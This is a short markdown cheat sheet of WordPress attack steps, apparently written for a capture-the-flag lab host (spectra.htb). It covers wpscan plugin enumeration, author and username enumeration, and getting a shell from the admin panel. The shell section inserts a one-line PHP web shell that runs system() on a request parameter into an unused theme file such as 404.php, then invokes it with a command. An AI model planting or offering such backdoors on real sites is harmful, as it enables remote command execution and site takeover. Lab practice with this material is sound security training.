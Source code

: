 ## Tools
```bash
wpscan --url http://spectra.htb/main/ --plugins-detection aggressive -e ap -o wpscan.out
```

## Manual
- Enumerate authors `http://www.wp.com?author=1` by incrementing the auther id
- Enumerate usernames from comments and post blogs


## Getting Shell From Admin Pannel
### Via Themes
- Log in to `wp-admin` 
- Edit any nonactive theme. Add a backdoor at the beginning of any non-used file such as `404.php`
```php
<?php system($_REQUEST["Hello"]); ?>
```
- Navigate to the theme `http://spectra.htb/main/wp-content/themes/themename/404.php?Hello=whoami`

